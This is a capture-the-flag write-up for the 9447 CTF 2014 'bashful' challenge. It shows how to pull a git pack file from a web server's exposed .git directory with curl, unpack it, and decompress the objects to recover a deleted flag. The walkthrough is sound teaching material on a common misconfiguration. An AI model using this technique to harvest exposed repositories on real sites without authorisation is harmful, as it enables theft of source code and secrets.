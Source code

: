 ## bashful ##
Writeup by @auscompgeek.

> **Note**: This is the second (ironically easier) of the two git challenges,
> the first being [tumorous](tumorous.md).  This writeup has been written under
> the assumption that the first has been read.

### tl;dr ###
* `.git` repo was exposed (with indexes on after the challenge was "fixed")
* get and unpack the pack file
* read the blob objects (like in tumorous)

### Introduction ###
Upon visiting <http://bashful.9447.plumbing/>, we are presented with a
diary-like page, similar to tumorous.  They seem identical at first glance,
however, a closer inspection reveals something more.

Here are the diary entries:

```
13/2/2004: I learned how to html, yay!
12/4/2004: I learned how to use git, yay!
13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.
08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.
10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.
10/9/2004: I can't forget my token. What do I do? I should also pack so I'm ready to leave soon.
11/9/2004: I panicked and deleted the token. It is the work of evil doers.
12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.
```

Note the extra sentence in the differing entry for 10/9/2004:

> I should also pack so I'm ready to leave soon.

This implies that we may need to look at git pack files.

### Tips and Background ###
In addition to the tips in the tumorous writeup, it is useful to know about the
`git unpack-objects` command.  This reads an object pack file from stdin, and
unpacks the objects within into the current git repo.

### Exploitation ###
As before, we need to get a git blob object that represents `token`.

If we navigate to <http://bashful.9447.plumbing/.git/objects/>, we find that
all the objects are gone.  Navigate to the `pack` subdirectory however, and we
find a pack file named `pack-deff83d57714493c6d317394f3542da8e396f887.pack`.
We can download this and run `git unpack-objects` in a git repo:

```bash
$ cd $(mktemp -d)
$ git init
Initialized empty Git repository in [temporary directory]
$ curl http://bashful.9447.plumbing/.git/objects/pack/pack-deff83d57714493c6d317394f3542da8e396f887.pack | git unpack-objects
Unpacking objects: 100% (4/4), done.
```

Now that we have all the objects in our git repo, we can now find the blob
object.  I was lazy, so I just decompressed _all_ the objects:

```
$ cd .git/objects
$ for file in ??/*; do (printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; cat $file) | gunzip | cat -v; done
gzip: stdin: unexpected end of file
commit 296^@tree a475f4d3b14d659ee9d08d727a8dee7d896d2ca9
parent ec972f9af79a09129021a30e7f08099aa2b8a81d
author root <root@ip-172-31-10-205.ap-southeast-2.compute.internal> 1417230572 +0000
committer root <root@ip-172-31-10-205.ap-southeast-2.compute.internal> 1417230572 +0000

My precious flag now exists

gzip: stdin: unexpected end of file
blob 45^@9447{I_JUST_THINK_BITCOIN_WILL_DIE_OUT_SOON}

gzip: stdin: unexpected end of file
tree 71^@100644 index.html^@M-2qM-:^H^TWHlM-^XM-N+M-^V
M-^H\M-_ex^^M-j100644 token^@-(M-,M-pM-^_M-DBO~^W^AM-=|M-^JmM-rM-^^lM-^_M-a
gzip: stdin: unexpected end of file
blob 731^@<html>
<head> </head>
<body>
13/2/2004: I learned how to html, yay!<br>
12/4/2004: I learned how to use git, yay!<br>
13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.<br>
08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.<br>
10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.<br>
10/9/2004: I can't forget my token. What do I do? I should pack so I'm ready to leave soon.<br>
11/9/2004: I panicked and deleted the token. It is the work of evil doers.<br>
12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.<br>
</body>
</html>
```

Our flag clearly is `9447{I_JUST_THINK_BITCOIN_WILL_DIE_OUT_SOON}`.
Hmm... will Bitcoin die out though?

### Notes ###
It may be easier (hint: it *is*) to `wget` the entire `.git` directory, like
[mathiasbynens did](/ctfs/write-ups/tree/master/9447-ctf-2014/bashful).
I outline this process as this is along the lines of the original intended
solution (before they realised it was impossible).
